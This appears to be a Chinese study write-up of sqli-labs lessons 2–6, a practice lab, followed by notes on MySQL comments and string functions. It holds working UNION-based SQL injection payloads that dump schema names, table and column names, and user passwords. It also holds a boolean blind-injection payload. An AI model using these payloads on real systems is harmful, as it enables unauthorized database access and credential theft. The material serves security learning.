



一、Introduction
第2~4题和Less-1的差不多其实，到了第五题,第六题开始盲注有点难了，学了一波mysql的操作还是有些收获
二、Hack
Less-2
传入一个单引号试探注入点，发现报错
..... syntax to use near '' LIMIT 0,1' at line 1推测和Less-1唯一的区别在于没有单引号，只是用数字进行查询，例如
SELECT * FROM users WHERE id=$id LIMIT 0,1所以payload和Less-1差别只在于一个单引号
-1 union select 1,2,3 %23
-1 union select 1,2,group_concat(schema_name) from information_schema.schemata%23
-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
-1 union select 1,group_concat(username),group_concat(password) from users%23Less-3
题目名字叫，Single quotes with twist string (基于错误的GET单引号变形字符型注入)
测试 ?id=1’ 得到
...... syntax to use near ''1'') LIMIT 0,1' at line 1猜测语句
SELECT * FROM users WHERE id=('$id') LIMIT 0,1所以通过前面加 -1’) 闭合前面 尾部加%23 （#的url编码）中间就可以为所欲为了
SELECT * FROM users WHERE id=(' -1'){{为所欲为}}#23 ') LIMIT 0,1所以payload
-1')union select 1,2,3 %23
-1')union select 1,2,group_concat(schema_name) from information_schema.schemata%23'
-1')union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
-1')union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
-1')union select 1,group_concat(username),group_concat(password) from users%23Less-4
尝试’并未发现报错，尝试”发现报错
syntax to use near '"1"") LIMIT 0,1' at line 1猜测语句
SELECT * FROM users WHERE id=("$id") LIMIT 0,1所以payload和3差不多只是单引号变双引号
-1")union select 1,2,3 %23
-1")union select 1,2,group_concat(schema_name) from information_schema.schemata%23'
-1")union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
-1")union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
-1")union select 1,group_concat(username),group_concat(password) from users%23Less-5 在导航页里显示的是要使用双查询
发现正常或者注入成功是这样的

而一旦出错会报错

显然是布尔注入而且猜测语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1当然就可以很多操作了，通过substr()、ascii()爆破也能得到一切
打个比方
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>80%23
//截取数据库下第一个表的第一个字符与80ascii值进行对比
找第二个字符只需要改成substr('xxx',2,1)即可。
找第二个表改成limit 1,1也可以直接拿这个盲注脚本爆破，参数自己改就行了

https://github.com/Kit4y/Sql-Injection/blob/master/Src/Script/Bool-injection.py
Less-6
Less-6和Less-5的关系就和1♂2，3♂4的关系一样 把’改成”在脚本上修改就很行了
三、补上一次的遗漏知识点
3.1、MySql–三种注释写法
3.1.1、--
后面一定要加空格
3.1.2、#
3.1.3、/**/
3.2、注入尾部为什么是--+而不是--
这里字符-和字符+在URL中都是有固定的含义的 , 比如说+就在URL编码中就代表空格 , 而URL编码中-不用编码。我们也可以不用+ 而使用空格的URL编码 , 那么编码得到的URL就应该是 :
id=1%27--%203.3、#又为什么必须得编码 , 不编码可以吗 ?
不可以 , 因为# 在URL中是有固定的含义的 , 表示页面中的锚点 , 如果不进行编码浏览器就会将其当成页面的锚点 , 而这里我们是需要将其作为数据传输给服务器的 , 因此需要进行URL编码
四、补充mysql的一些函数
4.1、substr()
substr()函数是用来截取数据库某一列字段中的一部分
常用的方式是：
SBUSTR(str,pos); 就是从pos开始的位置，一直截取到最后。
SUBSTR(str,pos,len);这种表示的意思是，就是从pos开始的位置，截取len个字符(空白也算字符)。
需要注意的是：如果pos为1(而不是0)，表示从第一个位置开始。
这点也很好理解，因为数据库不是我们平时写程序，他有他自己的一套习惯，数据库的记录都是从1开始没有从0开始
4.2、ascii(),ord()函数
ASCII(str1)
返回字符串str的最左面字符的ASCII代码值。如果str是空字符串，返回0。如果str是NULL，返回NULL
mysql> select ascii("a");
+------------+
| ascii("a") |
+------------+
| 97 |
+------------+
1 row in set (0.00 sec)ORD() 函数
ORD() 函数返回字符串第一个字符的ASCII 值。
mysql> select ord("a");
+----------+
| ord("a") |
+----------+
| 97 |
+----------+
1 row in set (0.00 sec)4.3、LEFT()函数是一个字符串函数，它返回具有指定长度的字符串的左边部分。
LEFT(str,length);LEFT()函数接受两个参数：
str是要提取子字符串的字符串。length是一个正整数，指定将从左边返回的字符数。
mysql> select left("hello Kitty",5);
+-----------------------+
| left("hello Kitty",5) |
+-----------------------+
| hello |
+-----------------------+
1 row in set (0.00 sec)与之类似的是right(str,length);
mysql> select right("hello Kitty",5);
+------------------------+
| right("hello Kitty",5) |
+------------------------+
| Kitty |
+------------------------+
1 row in set (0.00 sec)4.4、REGEXP
可以在不使用数据库表的情况下用 SELECT 语句来测试正则表达式，REGEXP 检查总是返回0（没有匹配）或1（匹配）。可以用带文字串的 REGEXP 来测试表达式，并试验它们。
mysql> SELECT 'kitty' REGEXP '[0-9a-z]{6}';
+------------------------------+
| 'kitty' REGEXP '[0-9a-z]{6}' |
+------------------------------+
| 0 |
+------------------------------+
1 row in set (0.00 sec)mysql> SELECT 'kitty' REGEXP '[0-9a-z]{5}';
+------------------------------+
| 'kitty' REGEXP '[0-9a-z]{5}' |
+------------------------------+
| 1 |
+------------------------------+
1 row in set (0.00 sec)4.5、MID()
SELECT MID(column_name,start[,length]) FROM table_name;函数用于从文本字段中提取字符。
+----+--------------+---------------------------+-------+---------+
| id | name | url | alexa | country |
+----+--------------+---------------------------+-------+---------+
| 1 | Google | https://www.google.cm/ | 1 | USA |
| 2 | 淘宝 | https://www.taobao.com/ | 13 | CN |
| 3 | 菜鸟教程 | http://www.runoob.com/ | 4689 | CN |
| 4 | 微博 | http://weibo.com/ | 20 | CN |
| 5 | Facebook | https://www.facebook.com/ | 3 | USA |
| 7 | stackoverflow | http://stackoverflow.com/ | 0 | IND |
+----+---------------+---------------------------+-------+---------+SELECT MID(name,1,4) AS ShortTitle
FROM Websites;返回结果
4.6、if()
在mysql中if()函数的用法类似于java中的三目表达式，其用处也比较多，具体语法如下：
IF(expr1,expr2,expr3)，如果expr1的值为true，则返回expr2的值，如果expr1的值为false，
mysql> select name,if(sex=0,'女','男') as sex from student;
+-------+-----+
| name | sex |
+-------+-----+
| name1 | 女 |
| name2 | 女 |
| name3 | 男 |
| name4 | 女 |
+-------+-----+
rows in set (0.00 sec)